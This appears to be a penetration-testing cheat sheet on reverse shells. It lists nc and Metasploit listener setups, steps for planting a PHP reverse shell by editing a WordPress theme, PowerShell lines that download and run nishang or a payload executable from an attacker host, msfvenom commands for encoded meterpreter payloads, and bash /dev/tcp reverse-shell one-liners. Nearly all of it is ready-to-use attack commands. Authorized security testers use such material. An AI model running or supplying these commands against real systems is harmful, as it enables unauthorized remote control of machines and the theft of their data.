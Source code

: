 # Reverse Shell

## Listeners
___

### NC
```
nc -lvnp 4444
```
### Metasploit
- Meterpreter listener
```
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4444
set payload windows/(x64)/meterpreter/reverse_tcp
```

## Payload
___

### PHP
- Get reverse shell from Wordpress admin dashboard using themes edition
```
Login as admin, and edit a theme's php file.
Replace content with Pentest Monkey's php-reverse-shell
Browse file : http://hostname/wordpress/wp-content/themes/themename/file.php
```

### Windows
- Reverse shell with nishang Invoke-PowershellTcp
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress 10.6.77.211 -Port 4444
```

- Upgrade shell to meterpreter session
```sh
# Generate Payload with msfvenom then serve it with SimpleHTTPServer
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o rshell.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
python -m SimpleHTTPServer 8000
```
- Download and execute payload on target machine
```powershell
powershell (New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')
```

### Metasploit

- Get meterpreter session with SSH login
```sh
use auxiliary/scanner/ssh/ssh_login
set rhosts 0.0.0.0
set username user
set password pass
run
sessions -u 1
```

- Exe Payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f exe > shell.exe
```

- PHP Payload
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
- Basic PHP command line to open a shell
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/0.0.0.0/4445 0>&1'");
```

- Bash command to open shell
```sh
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
```

## Upgrading shell
___
- Upgrade shell to bash/pty

```sh
SHELL=/bin/bash script -q /dev/null
```
```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

## Links
___
### Guides
- https://www.hackingarticles.in/wordpress-reverse-shell/
- https://github.com/pentestmonkey/php-reverse-shell
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://netsec.ws/?p=331
- https://gtfobins.github.io/

### Writeups
- 